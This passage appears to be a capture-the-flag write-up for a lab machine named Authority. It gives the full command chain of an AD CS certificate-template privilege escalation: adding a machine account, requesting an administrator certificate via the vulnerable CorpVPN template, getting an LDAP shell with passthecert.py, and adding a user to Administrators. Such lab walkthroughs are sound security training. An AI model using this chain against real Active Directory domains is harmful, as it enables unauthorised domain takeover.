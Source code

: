 By inspecting the output of the command, we can see that domains users can add computers to the domain. We can use `impacket-addcomputer` to achieve this:
```bash
$ impacket-addcomputer authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name STX$ -computer-pass password#123
```

Also with `certipy` we can generate a certificate for the account `STX$` with the vulnerable template `CorpVPN`:
```
$ certipy req -u 'STX$' -p 'password#123' -ca AUTHORITY-CA -target authority.htb -template CorpVPN -upn administrator@authority.htb -dns authority.authority.htb -dc-ip 10.10.11.222
```

Then we generate two certificates, one without including the private key and another without including the certificate:
```
$ certipy cert -pfx administrator_authority.pfx -nokey -out user.crt
$ certipy cert -pfx administrator_authority.pfx -nocert -out user.key
```

Finally, with these certificates, we can use the script `passthecert.py` from [*AlmondOffSec*](https://github.com/AlmondOffSec/PassTheCert/tree/main/Python) to authenticate to the LDAPs server and obtain a LDAP shell:
```
python3 passthecert.py -action ldap-shell -crt user.crt -key user.key -domain authority.htb -dc-ip "10.10.11.222"
```

Now with this shell we can add `svc_ldap` user to `Administrators` group:
```
# add_user_to_group svc_ldap Administrators
Adding user: svc_ldap to group Administrators result: OK
```

And that's it, we can connect reconnect to the server with `evil-winrm` as `svc_ldap` user, and we can now get the flag in `C:\Users\Administrator\Desktop\root.txt`.
